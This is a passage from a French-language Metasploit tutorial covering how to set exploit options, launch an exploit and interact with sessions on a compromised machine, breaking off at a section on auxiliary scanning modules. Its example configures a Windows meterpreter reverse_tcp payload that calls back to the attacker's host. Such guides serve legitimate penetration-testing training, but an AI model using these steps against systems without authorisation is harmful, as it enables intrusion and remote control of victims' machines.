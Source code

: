 #### 4. Configurer les Options

*   **Commande** :

    ```bash
    set <option> <valeur>
    ```
*   **Exemple** :

    ```bash
    set RHOSTS 192.168.1.10
    set PAYLOAD windows/x64/meterpreter/reverse_tcp
    set LHOST 192.168.1.5
    ```
* **Explication** :
  * Configure les options nécessaires pour l'exploit, comme l'adresse IP cible, le payload, et l'adresse de votre machine.

***

#### 5. Lancer un Exploit

*   **Commande** :

    ```bash
    exploit
    ```
* **Explication** :
  * Lance l'exploit configuré pour pénétrer le système cible.

***

#### 6. Gérer les Sessions

*   **Afficher les sessions actives** :

    ```bash
    sessions
    ```
*   **Interagir avec une session** :

    ```bash
    sessions -i <id_de_session>
    ```
* **Explication** :
  * Permet de contrôler un système compromis à travers une session ouverte.

***

### 🚀 Étape 3 : Modules Auxiliaires et Payloads

***

#### 1. Scanner un Réseau pour Identifier des Vulnérabilités
